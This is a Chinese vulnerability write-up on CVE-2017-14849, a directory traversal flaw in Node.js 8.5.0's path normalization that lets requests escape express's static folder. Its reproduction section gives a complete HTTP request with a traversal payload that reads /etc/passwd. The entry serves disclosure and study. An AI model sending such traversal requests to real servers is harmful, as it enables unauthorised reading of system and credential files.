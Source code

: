 （CVE-2017-14849）Node.js 目录穿越漏洞
======================================

一、漏洞简介
------------

原因是 Node.js 8.5.0
对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node
8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

二、漏洞影响
------------

Node.js 8.5.0

三、复现过程
------------

    GET /static/../../../a/../../../../etc/passwd HTTP/1.1
    Host: www.0-sec.org:3000
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-14849)Node.js目录穿越漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/node/CVE-2017-14849/
